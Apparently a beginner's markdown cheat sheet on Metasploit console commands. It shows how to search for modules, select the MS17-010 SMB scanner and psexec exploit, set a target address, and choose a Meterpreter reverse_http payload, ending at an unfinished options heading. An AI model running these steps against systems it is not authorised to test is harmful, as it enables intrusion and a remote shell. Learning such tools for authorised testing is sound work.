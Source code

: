 Other:

## Metasploit Framework

- Metasploit is a Framework with containing Many Exploits for certain things, used for Attacking and checking if the machine is vunerable to the exploits and attacks

- Start

    ``` bash
    $ sudo msfconsole
    ```

- Commands:

    - `search <protocol>` search for exploits
        ``` bash
        msf6> search smb
        ```

    - `grep <text> seach <protocol>` Filter through the search results by only showing matching lines

        ``` bash
        # Search for Exploits
        msf6> grep exploit seach smb
        ```

    - `use <exploit>` use the specified exploit

        ```bash
        msf6> use auxiliary/scanner/smb/smb_ms17_010
        msf6> use exploit/windows/smb/ms17_010_psexec
        ```

- Exploit Commands
        
    - `show options` show all the options (they are key-value pair)

        ```bash    
        msf6 auxiliary(scanner/smb/smb_ms17_010) > show options
        msf6 exploit(windows/smb/ms17_010_psexec) > show options
        ```

    - `set <option> <value>` changes an option to value,
            
            (press `TAB` to show all the possible values Doesn't work for some options like RHOSTS)

        ``` bash
        msf6 auxiliary(scanner/smb/smb_ms17_010) > set RHOSTS 192.168.1.150
        msf6 exploit(windows/smb/ms17_010_psexec) > set payload windows/meterpreter/reverse_http
        ```

    - `run` Check if it's vunerable

    - `exploit` Uses The Exploit

    - Some Common Options:
